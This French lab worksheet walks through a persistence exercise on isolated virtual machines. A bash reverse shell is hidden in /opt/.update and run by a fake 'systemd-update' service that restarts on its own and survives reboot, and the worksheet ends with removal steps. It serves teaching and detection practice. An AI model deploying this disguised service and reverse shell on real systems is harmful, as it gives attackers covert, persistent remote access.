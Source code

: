 
# **TP Offensif – Persistance via systemd (Reverse Shell Bash)**

**Sujet : Créer un service malveillant pour garder l’accès à une machine Ubuntu 22.04 après compromission**

---

## **1. Objectif**

* Créer un service `systemd` malveillant
* Maintenir un accès (reverse shell) après reboot
* Utiliser uniquement Bash et `systemctl`
* Observer les traces et nettoyer ensuite

---

## **2. Configuration requise**

### Machines virtuelles obligatoires

```
+------------------------+                +------------------------+
|   MACHINE KALI (Attaquant)             |<--- nc -lvnp 4444
|   IP : 192.168.56.10                   |                
+------------------------+                +------------------------+
                                                  |
                                                  |
                                                  v
+------------------------+                +------------------------+
|   MACHINE UBUNTU 22.04 (Victime)        |---> reverse shell bash
|   IP : 192.168.56.11                    |
+------------------------+                +------------------------+
```

### Réseau : `Host-only` ou `Internal Network`

> Aucun accès internet. Aucun pont réseau.

---

## **3. Préparation – Attaquant (KALI)**

### 3.1 Ouvrir le listener

Dans Kali, exécuter :

```bash
nc -lvnp 4444
```

Attendez. Ne rien fermer.

---

## **4. Préparation – Victime (Ubuntu 22.04)**

### 4.1 Installation des outils si nécessaire

```bash
sudo apt update
sudo apt install netcat-traditional systemd
```

---

## **5. Étape par Étape – Créer le Reverse Shell Bash**

### 5.1 Créer un dossier caché

```bash
sudo mkdir -p /opt/.update
```

### 5.2 Écrire le script malveillant

```bash
sudo nano /opt/.update/reverse.sh
```

Coller ce contenu :

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.10/4444 0>&1
```

Remplacez l’IP `192.168.56.10` par celle de Kali si différente.

### 5.3 Donner les droits d’exécution

```bash
sudo chmod +x /opt/.update/reverse.sh
```

---

## **6. Créer un faux service systemd**

### 6.1 Créer le fichier de service

```bash
sudo nano /etc/systemd/system/systemd-update.service
```

Coller ce contenu :

```ini
[Unit]
Description=System Update Daemon
After=network.target

[Service]
Type=simple
ExecStart=/opt/.update/reverse.sh
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
```

---

### 6.2 Activer le service

```bash
sudo systemctl daemon-reload
sudo systemctl enable systemd-update
sudo systemctl start systemd-update
```

---

## **7. Test de connexion (Kali)**

Retourner dans le terminal Kali.
Si tout est correct, vous verrez :

```
Connection received on 192.168.56.11
bash-5.1$
```

Vous êtes connecté en root sur la victime via le service `systemd`.

---

## **8. Vérification (Ubuntu)**

### Vérifier que le service tourne :

```bash
systemctl status systemd-update
```

### Voir les logs :

```bash
journalctl -u systemd-update
```

---

## **9. Test de persistance**

### Redémarrer la machine victime :

```bash
sudo reboot
```

### Dans Kali :

Le shell devrait revenir tout seul.

---

## **10. Suppression complète (désinfection)**

### Sur la victime :

```bash
sudo systemctl stop systemd-update
sudo systemctl disable systemd-update
sudo rm /etc/systemd/system/systemd-update.service
sudo rm -rf /opt/.update/
sudo systemctl daemon-reload
```

---

## **11. Vérification finale**

```bash
systemctl list-units --type=service | grep update
```

Ne rien voir s'afficher = suppression réussie.
